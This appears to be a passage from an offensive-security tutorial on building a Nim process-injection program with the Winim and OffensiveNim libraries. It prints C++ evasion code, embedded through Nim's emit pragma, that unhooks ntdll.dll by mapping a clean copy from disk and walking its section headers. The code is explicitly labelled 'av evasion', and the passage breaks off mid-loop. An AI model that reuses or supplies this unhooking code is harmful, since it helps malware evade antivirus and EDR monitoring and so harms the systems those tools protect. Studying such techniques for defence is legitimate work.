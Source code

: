     ### end import lines


The Readme.md file from the Winim Github page describes it best: "Winim contains Windows API, struct, and constant definitions for Nim. The definitions are translated from MinGW's Windows headers and Windows 10 SDK headers."  

These two libraries allow us to use Nim code to leverage the Windows API functions we need for the process injection portion of our code.  Again, the import lines are ones I prefer to have at the top of my program as standard practice.

From the Offensive Nim Github, we have a rough template to embed C++ code in our Nim program:  [https://github.com/byt3bl33d3r/OffensiveNim/blob/master/src/clr_host_cpp_embed_bin.nim](https://github.com/byt3bl33d3r/OffensiveNim/blob/master/src/clr_host_cpp_embed_bin.nim)

However, this example is for embedding C++ code to run assembly code.  Fortunately, there is [https://s3cur3th1ssh1t.github.io/A-tale-of-EDR-bypass-methods/](https://s3cur3th1ssh1t.github.io/A-tale-of-EDR-bypass-methods/)  

Approximately 3/4 through that post is the following code, adapted from the [https://www.ired.team](https://www.ired.team) post referenced in the comment on line #4:


    ### begin av evasion (c++ code)
    
    when not defined(cpp):
        {.error: "Must be compiled in cpp mode"}
    # Stolen from https://www.ired.team/offensive-security/defense-evasion/how-to-unhook-a-dll-using-c++
    
    {.emit: """
    #include <iostream>
    #include <Windows.h>
    #include <winternl.h>
    #include <psapi.h>
    
    int test()
    {
        HANDLE process = GetCurrentProcess();
        MODULEINFO mi = {};
        HMODULE ntdllModule = GetModuleHandleA("ntdll.dll");
        
        GetModuleInformation(process, ntdllModule, &mi, sizeof(mi));
        LPVOID ntdllBase = (LPVOID)mi.lpBaseOfDll;
        HANDLE ntdllFile = CreateFileA("c:\\windows\\system32\\ntdll.dll", GENERIC_READ, FILE_SHARE_READ, NULL, OPEN_EXISTING, 0, NULL);
        HANDLE ntdllMapping = CreateFileMapping(ntdllFile, NULL, PAGE_READONLY | SEC_IMAGE, 0, 0, NULL);
        LPVOID ntdllMappingAddress = MapViewOfFile(ntdllMapping, FILE_MAP_READ, 0, 0, 0);
    
        PIMAGE_DOS_HEADER hookedDosHeader = (PIMAGE_DOS_HEADER)ntdllBase;
        PIMAGE_NT_HEADERS hookedNtHeader = (PIMAGE_NT_HEADERS)((DWORD_PTR)ntdllBase + hookedDosHeader->e_lfanew);
    
        for (WORD i = 0; i < hookedNtHeader->FileHeader.NumberOfSections; i++) {
            PIMAGE_SECTION_HEADER hookedSectionHeader = (PIMAGE_SECTION_HEADER)((DWORD_PTR)IMAGE_FIRST_SECTION(hookedNtHeader) + ((DWORD_PTR)IMAGE_SIZEOF_SECTION_HEADER * i));
            